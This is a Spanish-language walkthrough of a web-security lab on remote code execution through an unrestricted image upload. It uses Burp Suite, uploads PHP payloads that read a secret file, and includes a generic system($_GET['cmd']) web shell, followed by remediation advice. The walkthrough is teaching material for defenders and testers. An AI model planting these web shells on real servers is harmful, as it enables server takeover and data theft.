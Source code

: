 # Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y tenemos una aplicación de blog:
![image](https://github.com/user-attachments/assets/a5f37019-79ba-47b9-8860-5e1844a9c7a6)

Accedemos al panel de autenticación y nos logueamos con nuestras credenciales `wiener:peter`. Observamos el endpoint `/my-account?id=wiener`:
![image](https://github.com/user-attachments/assets/dd34d67f-d5d9-44c5-b16d-a1b7266a3a3d)

Notamos que tenemos una funcionalidad de carga de archivos, por lo que subimos una imagen de prueba para analizarla. Cargamos la imágen y hacemos click en `Upload`:
![image](https://github.com/user-attachments/assets/90924fc6-07f2-4171-9b09-41c2e65fc4ad)

Volvemos a nuestra cuenta y se ve nuestra imagen cargada:
![image](https://github.com/user-attachments/assets/d783779d-77c1-4659-a74c-7d2acd0d6a41)

Analizamos la petición de carga con Burp Suite:
![image](https://github.com/user-attachments/assets/320ae37c-b5e5-4549-9fcf-0885d5a9e8f9)

Esta captura muestra una operación de carga de archivos típica, en la que el usuario sube un archivo llamado `test.png` mediante un formulario `multipart/form-data` al endpoint `/my-account/avatar`.

`Nota`: En Burp Suite, en la pestaña `http history`, recordar hacer click en `Filter settings`, tildar `Images` y luego click en `Apply`:
![image](https://github.com/user-attachments/assets/6050600a-3e62-4ae4-ae85-9e71f4eaf9f3)

Con esta configuración, vemos las imágenes cargadas y vemos el directorio de carga `/files/avatars/`:
![image](https://github.com/user-attachments/assets/ed057386-db66-49ef-b559-54ee578ed851)

El directorio de carga también podemos visualizarlo en el DOM inspeccionando el elemento:
![image](https://github.com/user-attachments/assets/aabc2011-304d-4300-b83c-f134744da87d)


Volviendo al endpoint `/my-account/avatar`, intentamos subir un archivo malicioso que contiene el siguiente oneliner en PHP:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
![image](https://github.com/user-attachments/assets/fe451865-d1f4-4719-b11e-99c632740f94)

`Nota`: También podríamos haber probado la siguiente webshell:
```php
<?php system($_GET['cmd']); ?>
```

Esta captura es una explotación directa y crítica de una vulnerabilidad de carga de archivos sin restricciones (unrestricted file upload) que permite ejecutar código arbitrario en el servidor.

🚨 Impacto:
- Ejecución remota de código: Si luego accededemos al endpoint `files/avatars/test.php`, el servidor ejecutará ese archivo como código PHP. El resultado será la lectura del archivo `/home/carlos/secret`, cuyo contenido se devolverá en la respuesta HTTP.

- Escalada total de privilegios: Si el archivo PHP se ejecuta correctamente, el atacante gana control total sobre el servidor (web shell). En este caso puntual, permite acceder a información confidencial del usuario carlos.

Accedemos al endpoint `files/avatars/test.php` y leemos el archivo `/home/carlos/secret`:
![image](https://github.com/user-attachments/assets/7b53328b-11d1-4b03-986d-f56512b9c8f7)

Alternativamente podríamos intentar subir la web shell:
![image](https://github.com/user-attachments/assets/50e6e04c-a261-4ac5-a368-66e61c4b09ed)

Accedemos al endpoint y `files/avatars/webshell.php` y obtenemos la shell:
![image](https://github.com/user-attachments/assets/c6a2c5df-8413-450b-a63e-0b0851bc2c2a)


Cargamos el secreto `ayk86WeXNI5eIMewigMgSCGXt9NYSu5F` y resolvemos el laboratorio:
![image](https://github.com/user-attachments/assets/7c9e5c4c-2d48-4fd6-8b9d-083044d7a463)

---

## ✅ Conclusión

Este laboratorio demuestra una de las vulnerabilidades más críticas asociadas a cargas de archivos: la ejecución remota de código (RCE) mediante una web shell. La aplicación permite subir archivos sin ningún tipo de validación de tipo, extensión o contenido, lo que posibilita que un atacante cargue archivos `.php` con código malicioso. Como el directorio de destino permite la ejecución de estos scripts, es posible ejecutar comandos arbitrarios o leer archivos sensibles como `/home/carlos/secret`.

Este tipo de falla puede comprometer completamente el servidor, permitiendo desde robo de datos hasta pivoting dentro de la red interna.

---

## 🛡️ Recomendaciones

- **Validar la extensión del archivo del lado del servidor**: No confiar en el tipo MIME enviado por el cliente. Implementar listas blancas de extensiones válidas (por ejemplo: `.jpg`, `.png`, `.gif`).

- **Verificar el contenido del archivo (content sniffing)**: Comprobar que los archivos realmente correspondan al tipo declarado. Herramientas como `file` en sistemas Unix pueden ayudar a identificar tipos verdaderos.

- **Renombrar archivos al subirlos**: Para evitar la ejecución de código malicioso con nombres controlados por el atacante.

- **Almacenar archivos en directorios no ejecutables**: El directorio de subida no debe tener permisos para ejecutar scripts del lado servidor.

- **Bloquear extensiones peligrosas a nivel de servidor web (Apache/Nginx)**: Configurar reglas que impidan la ejecución de archivos `.php`, `.jsp`, `.asp`, etc. en directorios públicos.

- **Limitar los permisos del usuario del servidor**: Evitar que tenga acceso innecesario a rutas críticas como `/home/carlos/`.

---

## 📚 Lecciones aprendidas

- Una simple funcionalidad de subida de imagen puede ser usada como vector de ataque crítico si no se aplica una validación rigurosa.

- El análisis de las rutas y el comportamiento del servidor ante diferentes extensiones es clave para detectar directorios ejecutables.

- Burp Suite y el análisis del DOM permiten identificar rutas de subida, extensiones aceptadas y puntos de explotación.

- Las web shells son herramientas extremadamente poderosas para post-explotación, y deben considerarse como pruebas de concepto de gran impacto en cualquier pentest profesional.

